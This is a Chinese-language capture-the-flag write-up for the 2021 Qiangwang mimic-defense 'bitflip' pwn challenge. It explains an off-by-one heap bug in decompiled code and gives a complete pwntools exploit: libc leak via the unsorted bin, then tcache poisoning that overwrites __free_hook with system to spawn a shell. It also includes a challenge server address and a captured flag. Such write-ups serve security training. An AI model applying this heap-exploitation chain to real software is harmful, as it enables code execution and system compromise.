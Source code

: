 # 第四届“强网”拟态防御国际精英挑战赛 2021 pwn **bitflip**

> challenge name: `bitflip`
>
> file: `bitflip`, libc-2.27.so
>
> ld.so and .i64 with comments provided
>
> writeup writer: hexhex16@outlook.com    https://github.com/kokifish
>

是`old_school`的进阶版，也是在edit操作中存在Off-By-One漏洞，create时要求size最大为0x50，这个大小在tcache被填满之后，会进入到fastbin而不会进入到unsorted bin。所以要用Off-By-One改大size域，使得chunk可以进入unsorted bin，其余过程则与`old_school`类似，即拿到一个chunk，这个chunk是可以控制一个在tcache中的chunk的fw域的。最后做tcache poisoning

注意事项：改size时，要注意size大小可能导致unsorted bin有关的安全检查过不了

内存布局+思路：

```python
c1(0x40)
c2(0x40) # 利用c1把c2的size改大(0xa1)，设法把c2放入unsortedbin里
c3(0x30) # 放到tcache(0x30)里，要为第一个chunk，即要最后free # tcache(0x30) cnt=2: c3->c4
c4(0x30) # 陪着c3进tcache(0x30)，只是为了增大tcache(0x30)的cnt为2
# 两个两个malloc，malloc 7 对 chunk(14个)，用前一个chunk改大下一个chunk的size为0xa1
# 把size改为0xa1的chunk释放，填满tcache(0xa0)
# 释放c2，c2进入unsorted bin: 0xa0
# malloc(0x40) 把c2 拿回来，unsorted bin中还有一个 0x60 的chunk
# malloc(0x30) 再从unsorted bin拿一个0x30的chunk，其实这个就是c3了，然后就可以编辑c3的fw
```

一句话概括：把一个chunk的size改大，释放到unsorted bin的时候把一个在tcache中的chunk给“顺”进unsorted bin了，然后就可以拿回来任意编辑。

> 注意这里的描述与exp中的有些许出入，exp中有的chunk是无用的，做了一些没有必要的操作。

# IDA Analysis

- create: idx<= 0x1f; size<=0x50。这个size在tcache填满时，放入fastbin
- edit: size为0x28, 0x38, ...时，可以覆盖下一chunk的size的最低1B为任意数字，即存在Off-By-One

```cpp
unsigned __int64 edit()
{
  unsigned __int64 idx_ori; // rbx
  __int64 size_ori; // rbp
  _BYTE *ptr; // rbx
  __int64 size_plus1; // rbp
  _BYTE *end_addr; // rbp
  unsigned __int64 temp; // [rsp+0h] [rbp-28h] BYREF
  unsigned __int64 v7; // [rsp+8h] [rbp-20h]

  v7 = __readfsqword(0x28u);
  __printf_chk(1LL, "Index: ");
  __isoc99_scanf(&ald, &temp);
  idx_ori = temp;
  if ( temp <= 0x1F )
  {
    if ( arrPtr[temp] )
    {
      __printf_chk(1LL, "Content: ");
      size_ori = arrSize[idx_ori];
      ptr = (_BYTE *)arrPtr[idx_ori];
      size_plus1 = size_ori + 1;
      if ( size_plus1 )
      {
        end_addr = &ptr[size_plus1];
        do
        {
          read(0, ptr, 1uLL);   // 可以编辑ptr[size]所在的byte 即多写1B任意字符，Off-By-One
          if ( *ptr == '\n' )
            break;
          ++ptr;
        }
        while ( ptr != end_addr ); // ptr[size+1]
      }
    }
  }
  return __readfsqword(0x28u) ^ v7;
}
```



# exp

c0是没用的，debug时遗留的罢了。c5是不必的，因为后面只从tcache(0x30)中malloc了两次。

```python
from pwn import *
context.arch = 'amd64'
context.log_level = "debug"
IP = "124.71.130.185"
PORT = 49154
DEBUG = 1


if DEBUG:
    p = process(["./ld.so", "./bitflip"], env={"LD_PRELOAD": "./libc-2.27.so"})
    libc = ELF("./libc-2.27.so")
    # attention: argv[1] for ./pwn when running with ./ld.so ./pwn
    base = p.libs()[p._cwd + p.argv[1].decode().strip('.')]  # fix bytes str error in py3.9
    print("base:", base, p.libs())

else:  # flag{2296341872d87bd532c121d14d55c4ac}
    p = remote(IP, PORT)
    libc = ELF("./libc-2.27.so")


def ru(x): return p.recvuntil(x)
def se(x): return p.send(x)
def rl(): return p.recvline()
def sl(x): return p.sendline(x)
def rv(x): return p.recv(x)
def sa(a, b): return p.sendafter(a, b)
def sla(a, b): return p.sendlineafter(a, b)
def l64(): return u64(p.recvuntil("\x7f")[-6:].ljust(8, b"\x00"))  # python 3.9 pass


def debug(cmd=""):
    gdb.attach(p, cmd)


def dd():
    if DEBUG:
        cmd = ""
        # cmd += "b *%d\n" % (base + 0xC0E)  #
        cmd += "set $a=%d\n" % (base + 0x202160)  # arrPtr
        debug(cmd)


def create(idx, size):
    sla("Your choice: ", str(1))
    sla("Index: ", str(idx))  # max: 0x1F # 0~32
    sla("Size: ", str(size))  # max: 0x50
    ru("Done!")


def edit(idx, content):
    sla("Your choice: ", str(2))
    sla("Index: ", str(idx))
    sa("Content: ", content)


def show(idx):
    sla("Your choice: ", str(3))
    sla("Index: ", str(idx))
    ru("Content: ")
    return ru("\n1. BF create")[:-13]


def remove(idx):
    sla("Your choice: ", str(4))
    sla("Index: ", str(idx))


# === Step-1: prepare a chunk(0xa0), tcache(0x30) cnt=3
create(0, 0x38)
edit(0, "chunk0".ljust(0x47, '0') + '\n')
create(1, 0x38)
create(2, 0x38)  # c2 size=0x40
edit(1, "to_unsorted_bin".ljust(0x38, 'a') + chr(0xa1))  # Off-By-One # c2 size=0xa0
# prepare tcache(0x30) for tcache poisoning in last step
# c3将被放到tcache(0x30)的头部，同时被c2“顺”进unsorted_bins
create(3, 0x28)  # c3 0x30 # covered by c2 
create(4, 0x28)  # c4 0x30 # covered by c2
create(5, 0x28)  # c5 0x30 # NOT covered by c2
remove(5)
remove(4)
remove(3)  # tcache(0x30)cnt3: c3, c4, c5

# === Step-2: full tcache(0xa0), a chunk to unsorted bin
for i in range(6, 19, 2):  # tcache(0x40)
    print("i=", i)
    create(i, 0x38)      # 6, 8, 10, 12, 14, 16, 18
    create(i + 1, 0x38)  # 7, 9, 11...
    edit(i, "toEditNextChunk".ljust(0x38, '0') + chr(0xa1))

for i in range(19, 6, -2):
    print("free i=", i)  # 19, 17, ... 7
    remove(i)  # full tcache(0xa0)
remove(2)  # c2 to unsorted bin
# tcache(0xa0)cnt=7: c7, c9, .. c19 # unsorted_bin cnt=1: 0xa0

# === Step-3: get chunk(size=0x40) from unsorted bin, 0x60 left; leak libc addr
create(2, 0x38)
data = show(2)
print("data:", data, data.hex())
temp = u64(data.ljust(8, b"\x00"))
libc.address = temp - 0x7f7669cc7d30 + 0x00007f76698dc000
print("libc.address:", libc.address, hex(libc.address), hex(temp))
dd()

# tcache(0xa0)cnt=7 # tcache(0x40)cnt=3: c3, c4, c5 # unsorted_bins 0x60
# === Step-4: get chunk(0x50) from unsorted bin, also c3
create(22, 0x48)  # unsorted_bins cnt=1: 0x20
edit(22, p64(libc.symbols["__free_hook"]) + b'\n')  # cover c3 fw with &__free_hook
create(23, 0x28)  # get c3 from tcache(0x30) # tcache(0x30)cnt=2: &__free_hook
create(24, 0x28)  # get &__free_hook
edit(24, p64(libc.symbols["system"]) + b'\n')  # cover __free_hook with system
edit(23, "/bin/sh\x00\n")
remove(23)  # system("/bin/sh\x00\n")


p.interactive()

```

